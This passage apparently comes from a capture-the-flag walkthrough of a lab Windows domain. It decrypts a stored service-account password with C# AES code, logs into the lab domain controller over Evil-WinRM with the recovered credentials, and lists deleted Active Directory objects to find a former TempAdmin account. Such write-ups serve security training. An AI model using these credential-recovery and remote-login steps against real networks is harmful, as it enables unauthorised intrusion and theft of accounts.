 ```cs
                        Aes aes = Aes.Create();
                        aes.KeySize = 128;
                        aes.BlockSize = 128;
                        aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
                        aes.Mode = CipherMode.CBC;
                        aes.Key = Encoding.UTF8.GetBytes(Key);
                        string @string;
                        using (MemoryStream memoryStream = new MemoryStream(array))
                        {
                                using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Read))
                                {
                                        byte[] array2 = new byte[checked(array.Length - 1 + 1)];
                                        cryptoStream.Read(array2, 0, array2.Length);
                                        @string = Encoding.UTF8.GetString(array2);
                                }
                        }
                         Console.WriteLine(@string);
        }
    }
}
```

## ArkSvc User
Executing `decrypt.cs` file give us the decrypt string of `BQO5l5Kj9MdErXx6Q6AGOw==` which is `w3lc0meFr31nd`. So, we managed to get `ArkSvc` Creds `ArkSvc:w3lc0meFr31nd`. Let's try to login with these creds using `Evil-WinRM`.
```
/opt/evil-winrm/./evil-winrm.rb -u ArkSvc -p 'w3lc0meFr31nd' -i 10.10.10.182

*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc

*Evil-WinRM* PS C:\Users\arksvc\Documents> hostname
CASC-DC1
```

Next, looking at the `groups` we're part of using `whoami /groups`. `AD Recyle Bin` seems interesting since if we recall message from `Meeting_Notes_June_2018.html`. It say's they created `TempAdmin` user to perform all the `tasks` and the `account` is deleted at the end of the projects. All the deleted objects  goes into `AD Recyle Bin` for certain amount of time and they're recoverable. This is big hint to be noted . We can retrive `deleted object properties` since we're are part of `AD Recyle Bin`. 

## AD Recyle Bin
We can list all the deleted objects in AD using  `Get-ADObject` cmdlet.
```powershell
Get-ADObject -ldapFilter:"(msDS-LastKnownRDN=*)" -IncludeDeletedObjects

<SNIP>

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
```